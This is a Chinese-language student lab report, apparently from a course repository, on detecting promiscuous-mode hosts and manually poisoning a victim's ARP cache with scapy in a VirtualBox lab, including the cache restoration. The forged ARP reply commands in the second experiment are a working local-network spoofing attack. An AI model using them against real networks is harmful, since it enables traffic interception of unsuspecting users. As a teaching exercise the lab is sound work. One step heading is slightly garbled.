









# 实验四

# 基于 scapy 编写 ARP 投毒劫持工具

## 实验环境

- Oracle Virtual Box

- 攻击者主机

  - 08:00:27:0e:34:8d / eth0
  - 172.16.111.111

- 受害者主机

  - 08:00:27:0e:35:9d / eth0
  - 172.16.111.140

- 网关

  -  08:00:27:39:5a:44 / enp0s9

  - 172.16.111.1

    

## 实验目的

- 熟悉并掌握使用ARP伪造数据包

## 实验步骤

- 打开Oracle Virtual Box
- 创建虚拟机
  - Gateway
  - Attack-Kali
  - Victim-Kali
- 按照要求进行实验一、二
- 编写实验报告

## 实验内容

- 在攻击者主机上安装scrapy

  ```
  #安装python3
  sudo apt update && sudo apt install python3 python3-pip
  ```

- ```
  # ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
  pip3 install scapy[complete]
  ```

### 实验一：检测局域网中的异常终端

- 构建网络拓扑

  

- 查看混杂模式

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```



- 开启scapy

  ```
  # 在攻击者主机上开启 scapy
  sudo scapy
  ```

- scapy交互终端执行代码

  ```
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.140")
  ```

  

- 开启受害者主机网卡

  ```
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  ```

  ```
  # 此时会发现输出结果里多出来了 PROMISC 
  ip link show eth0
  ```

  

- 攻击者主机查看命令差异

  ```
  # 回到攻击者主机上的 scapy 交互式终端继续执行命令
  # 观察两次命令的输出结果差异
  pkt = promiscping("172.16.111.140")
  ```

  

- 关闭混杂模式

  ```
  # 在受害者主机上
  # 手动关闭该网卡的「混杂模式」
  sudo ip link set eth0 promisc off
  ```

  

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

（在攻击者scapy交互终端完成）

- 构造ARP请求

  ```
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  ```

- 查看ARP报文

  ```
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  

- 发送ARP广播请求

  ```
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  ```

- 网关MAC地址recved = srp(arpbroadcast, timeout=2)

  ```
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```

- 伪造ARP响应包

  ```
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.140
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.140", hwdst="08:00:27:0e:34:8d")
  ```

  

- 发伪造数据包到受害者主机

  ```
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```

- 查看受害者ARP缓存

  ```
  ip neigh
  #网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ```

  

- 恢复受害者主机的 ARP 缓存记录

  ```
  #删除网关ARP
  arp -d 172.16.111.1
  
  #删除攻击者主机ARP
  arp -d 172.16.111.111
  ```

  

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  ```
  #伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:39:5a:44", pdst="172.16.111.140", hwdst="08:00:27:0e:35:9d")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

- 在受害者主机刷新网关记录

  ```
  # 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  
  # 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  

  

  

  

## 问题&&解决方法

1. 两台虚拟机ip地址一样

   解决方法：[修改netplan 的配置文件使用网卡mac地址来做dhcp唯一标识](https://netplan.io/examples/)

   **敲黑板**：编辑`.yaml`文件时切记切记要缩进！冒号后面的参数要打空格啊！

   ```
   #创建 /etc/netplan/config.yaml
   
   #编辑config.yaml
   #network:
       version: 2
       ethernets:
           enp3s0:
               dhcp4: yes
               dhcp-identifier: mac
               
   #安装netplan
   sudo apt-get update && apt-install netplan.io
   
   #运行配置文件
   sudo netplan apply
   
   #在虚拟机配置修改mac地址（虚拟机需处于关机状态）
   设置 → 网络 → 高级 → mac地址
   
   #ip地址随着mac地址的改变而改变
   
   #重新登录虚拟机查看ip地址
   ip a
   
   #ip地址已经变啦！
   ```

   

2. 受害者主机使用kali系统，因为有些命令xp系统打不出来

3. 当  `apt policy XXX` 正常显示，而`sudo apt-get update && apt-get install XXX` 报错时

   解决方法：将update和install命令分开执行

   

